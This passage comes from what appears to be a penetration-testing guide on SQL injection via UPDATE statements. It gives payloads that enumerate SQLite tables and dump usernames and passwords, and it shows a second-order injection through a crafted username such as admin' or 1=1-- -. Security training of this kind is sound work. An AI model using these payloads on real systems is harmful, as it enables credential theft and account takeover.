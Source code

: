 ```sql
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

By injecting the above code, we can see that the only table in the database is called "**usertable**":

![](../../../.gitbook/assets/update\_attack5.png)

We can then continue to extract all the column names from the usertable:

```sql
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

And as can be seen below, the usertable contains the columns: UID, name, profileID, salary, passportNr, email, nickName, and password:

![](../../../.gitbook/assets/update\_attack6.png)

Knowing the column names, we can extract the data we want from the database. For example, the following query will extract profileID, name and passwords from usertable. The subquery uses the `group_concat()` function to dump all the information simultaneously, and the `||` operator is "concatenated" - it joins the strings of its operands together ([sqlite.org](http://sqlite.org)).

```sql
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
```
{% endtab %}

{% tab title="Case #2" %}
When registering an account, we see that the "**username**" field does not sanitize the user entry, so our username may be as follows:

```
admin' or 1=1-- -
```

This is not vulnerable to SQL injection, but if we use another functionality or feature of the web application that requires this username, then we may trigger a SQL injection.

An example might be the password change form, as it is quite possibly using the SQL UPDATE statement to update the password. The SQL statement would look like this:

```sql
# Original:
UPDATE password <PASSWORD> where username='<USERNAME>'
# SQL injection:
## Log in with the following name: admin' or 1=1-- -
## Change the password and we will trigger the SQL injection:
UPDATE password <PASSWORD> where username='admin' or 1=1-- -'
```
{% endtab %}
{% endtabs %}
